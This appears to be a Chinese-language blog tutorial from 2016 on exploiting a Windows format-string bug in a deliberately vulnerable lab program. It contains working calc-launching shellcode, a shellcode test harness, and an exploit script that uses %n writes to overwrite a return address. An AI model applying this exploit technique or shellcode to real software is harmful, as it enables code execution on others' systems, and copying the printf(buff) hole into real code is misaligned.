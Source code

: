 ```yaml
---
layout:     post
title:      "windows格式化字符串漏洞探究"
subtitle:   "集Fsb漏洞构造、分析、利用的小实验"
date:       2016-11-17 15:32:25
author:     "Carter"
header-img: "img/post-bg-apple-event-2015.jpg"
tags:
    - Windows
    - pwn
---
```




###**知识点：**
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

###一. 程序代码：
```
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
	char buff[1024];
	FILE*f;
	
	f=fopen("flag.txt","r");
	fread(buff,1024,3,f);
   	printf(buff); //触发漏洞
  return 0;
}
```
 程序的流程是从flag.txt中读取字符串，再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

###二. 基本知识：
#####**1. 格式化字符串相关知识**
%x：依次打印出栈上数据
[图片]
%100x：指定数据打印时显示长度为100字节
[图片]
%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

#####**2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴
[图片]
[图片]
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

#####**3. windows7_32bit 弹计算器shellcode**
```
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

#####**4.  如何调试shellcode**
```
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
	return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了
#####**5. 查看程序开启安全机制**
在immunity Debugger中，使用 

> !mona modules

可以查看程序加载的各个模块对应开启的安全机制
[图片]
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


###三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
[图片]
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
[图片]
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：
```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```
对比下图，可以验证说法正确性
[图片]

###四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
[图片]
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
[图片]
所以我们的目的就是令：EAX=0x12faf0  ECX=0x12fb48

###五. 编写漏洞利用脚本
输入构造为：
shellcode相应多的%x一些%nx来调整输出长度需要被覆盖的地址
exp1.py
```
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
	f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
[图片]
弹出可爱的计算器
[图片]

##六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 -- \x3f
```
**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
http://bbs.pediy.com/showthread.php?t=213153